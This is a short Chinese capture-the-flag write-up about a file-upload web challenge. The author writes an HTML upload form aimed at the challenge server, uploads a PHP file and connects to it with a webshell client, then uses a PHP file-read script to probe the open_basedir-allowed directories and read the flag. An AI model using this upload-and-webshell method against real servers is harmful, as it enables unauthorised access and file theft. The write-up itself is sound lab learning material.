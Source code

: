 打开发现没有提交界面，只有一个index.php的界面（开始很懵逼不知道怎么提交），然后发现可以手撕一个前端的提交界面。提交界面如下：

```html
<!DOCTYPE html>
<html>
<body>

<form action="http://web1.0ops.sjtu.cn:40010/file/index.php" method="post" enctype="multipart/form-data">
    <input type="file" name="file"><br>
    <input type="submit" value="上传文件">
</form>

</body>
</html>
```

提交后发现用蚁剑连接后没有权限（disable中禁用了好多函数），然后一直在想办法绕过（绕不了一点），后来发现可以用类似命令行注入的方式来获取相应的文件名

先查找所有目录下的文件名：

```php
<?php
// 读取文件内容
$file_path = '/';
$file_content = file_get_contents($file_path);

// 输出文件内容
echo $file_content;
?>
```

报错 file_get_contents(): open_basedir restriction in effect. File(/) is not within the allowed path(s): (/var/www/html/file/:/var/www/html/upload/:/flag/:/tmp/) in **/var/www/html/upload/2.php** on line **4**

只能查找四个目录下的文件，然后即可找到/flag下的文件，打开即为相应的flag